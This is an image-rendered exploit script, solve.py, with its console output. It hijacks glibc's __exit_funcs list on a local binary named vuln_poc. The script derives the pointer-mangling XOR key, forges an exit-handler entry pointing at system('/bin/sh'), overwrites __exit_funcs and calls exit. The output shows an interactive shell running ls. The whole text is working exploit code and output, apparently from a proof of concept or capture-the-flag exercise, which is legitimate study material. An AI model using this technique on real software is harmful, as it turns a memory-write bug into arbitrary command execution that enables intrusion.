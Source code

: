 ```python {script_name="solve.py"}
	rol = lambda val, r_bits, max_bits: (val << r_bits%max_bits) & (2**max_bits-1) | ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))
	ror = lambda val, r_bits, max_bits: ((val & (2**max_bits-1)) >> r_bits%max_bits) | (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))
	crypt = lambda v,key: p64(rol(v ^ key, 0x11, 64))

	#get the XOR key
	xor_key = ror(enc_addr, 0x11, 64)^_dl_fini
	log.info(f"XOR key: {hex(xor_key)}")
	
	#we can now generate our exit function
	payl = b"".join([
		p64(0), #NULL
		p64(1), #idx
		p64(4), #flavor
		crypt(libc.sym["system"], xor_key), #system()
		p64(libc.address + 0x19ce43), #strings -t x libc.so.6 | grep -i /bin/sh

		#some nullbytes
		b"\x00"*3*8
	])
	heap_addr = interact("ALLOC", payl)
	log.info(f"Heap address of exit_functions_list struct: {hex(heap_addr)}")

	#modify __exit_funcs
	#offset in GDB: 0x7ffff7f97680-0x7ffff7dbb000 = 0x1dc680
	exit_funcs = libc.address+0x1dc680
	interact("w", {"addr": exit_funcs, "to_write": p64(heap_addr)})

	#exit
	interact("EXIT", 0)
	p.interactive()
```

```bash
[+] Starting local process './vuln_poc': pid 659312
[*] LibC Address: 0x7f3f37043000
[*] Encrypted address: 0xab657bbd9544b3e6
[*] _dl_fini: 0x7f3f3724de20
[*] XOR key: 0x59f32a8d8afa1482
[*] Heap address of exit_functions_list struct: 0x5610e80472a0
[*] Switching to interactive mode
$ ls
example.c  ld-linux-x86-64.so.2  libc.so.6  script.py  vuln_poc
```